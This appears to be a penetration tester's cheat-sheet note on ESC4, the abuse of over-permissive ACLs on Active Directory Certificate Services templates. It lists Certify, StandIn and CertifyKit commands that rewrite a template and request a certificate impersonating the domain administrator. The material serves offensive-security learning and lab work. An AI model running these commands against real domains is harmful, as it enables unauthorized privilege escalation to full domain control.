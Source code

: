 ## Vulnerable ACLs (GenericWrite) over AD CS Certificate Templates ##

#### What's running under the hood ####
- Certificate templates are securable objects - they have ACLs.
- They have a **security descriptor** that specifies which AD principals have specific permissions over the template.
- A certificate template that has overly permissive ACLs can be abused to modify security settings of the template to introduce misconfigurations like [[ESC1]].

#### What the attack is about ####
- If an attacker has enough permissions to modify a template and create any of the exploitable misconfigurations from the previous sections, he will be able to exploit it and **escalate privileges**.
- Interesting rights over certificate templates:
	- **Owner:** Implicit full control of the object, can edit any properties.
	- **FullControl:** Full control of the object, can edit any properties.
	- **WriteOwner:** Can modify the owner to an attacker-controlled principal.
	- **WriteDacl**: Can modify access control to grant an attacker FullControl.
	- **WriteProperty:** Can edit any properties

### Enumeration ###
1. **Certify**
`PS C:\ADCS\Auditor> .\Certify.exe find /template`

### Execution ###
1. **StandIn** (only allows adding the Client Authentication EKU for ESC1 abuse)
	- ENROLLEE_SUPPLIES_SUBJECT:
		`PS C:\ADCS\Auditor> .\StandIn_v13_Net45.exe --ADCS --filter SecureUpdate --ess --add`
	- Certificate-Enrollment Permission
		`PS C:\ADCS\Auditor> .\StandIn_v13_Net45.exe --ADCS --filter SecureUpdate --ntaccount "cb\domain users" --enroll --add`
	- Client Authentication EKU
		`PS C:\ADCS\Auditor> .\StandIn_v13_Net45.exe --ADCS --filter SecureUpdate --clientauth --add`
	
	- We can also abuse ESC4 using a few other EKUs other than the Client Authentication EKU.
		- Smart Card Logon (OID: 1.3.6.1.4.1.311.20.2.2)
		- PKINIT Client Authentication (OID: 1.3.6.1.5.2.3.4)
		- Any Purpose (OID: 2.5.29.37.0) – No EKU
2. **CertifyKit**
	- SmartCardLogon
		`PS C:\ADCS\Auditor> .\CertifyKit.exe request /ca:cb-ca.cb.corp\CB-CA /template:'SecureUpdate' /altname:administrator /domain:cb.corp /alter /sidextension:S-1-5-21-2928296033-1822922359-262865665-500`